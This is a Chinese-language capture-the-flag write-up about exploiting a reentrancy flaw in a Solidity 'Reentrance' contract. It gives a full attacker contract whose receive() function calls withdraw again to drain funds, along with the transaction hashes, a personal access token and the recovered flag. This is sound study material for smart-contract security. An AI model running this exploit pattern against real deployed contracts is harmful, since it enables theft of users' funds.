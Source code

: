 ## 重入攻击

- `msg.sender.call{value: _amount}("")）`。
    - 在这里，msg.sender 是调用 withdraw 函数的地址，它可能是一个外部账户（EOA，Externally Owned Account），也可能是另一个**合约地址**。
    - call 是一种灵活的低级操作，它允许调用任何合约的函数并发送以太币，同时可以指定要执行的函数签名。与 transfer 和 send 不同，call **不会自动检查转账是否成功**，并且会触发目标地址的**回调函数**（例如 fallback() 或 receive() 函数）。
    - 在目标合约的 withdraw 函数中使用 call 会触发目标地址的回调函数。我的合约可以在回调函数中再次调用 withdraw 函数，从而导致资金被多次提取。

代码实现：

```sol
contract Attack {
    Reentrance public reentrance;

    event ReentranceTriggered(uint256 amount);

    constructor(address payable _reentrance) {
        reentrance = Reentrance(_reentrance);
    }

    function startAttack() public {
        uint256 amount = reentrance.balanceOf(address(this));
        reentrance.withdraw(amount);
    }

    receive() external payable {
        uint256 target_balance = address(reentrance).balance;
        uint256 my_balance = reentrance.balanceOf(address(this));
        uint256 amount = target_balance < my_balance ? target_balance : my_balance;

        emit ReentranceTriggered(amount);

        if (amount > 0) {
            reentrance.withdraw(amount);
        }
    }
}
```

1. 部署 Attack 合约，传入 Reentrance 合约地址。tx: `0x93730dfcf844f6178587abd1dd4b4894e46b63757a722b734fae5c800b1e28b0`
2. 调⽤ Reentrance.donate 为 Hack 合约捐款 1 Finney, tx: `0xf635e8983981e69e252a1f90dcc41e121588836052677600b8170eb7f95165e7`
3. 调⽤ Attack.startAttack 提取捐款, tx: `0xb2738f82ab5a1971b5ce43c8890ba93eb61f1fcc27766c587fde21775eada84e`

我的 token: `v4.local.XhTyPHsHJrVfWiVNLM7mKQPBqNdfVE90GYCfaSkaPz3O5rDlGW2tDWv7pW_0BZjVEvQyttSQXusmFnaLyOvDzvX4rN0X8kpytiy04EGYScwCESZlYpCHrbeZHzQQjTuXPj7UcAz10HT5fLyi7t2WVmdLWRxSQ_Sjokw4FgVoVNxCUA`

通过测试，得到 flag 为 `ssec2024{R3-EnTR4Ncy_1s_VErY_d4NG3rOUs|2ed0414d}`
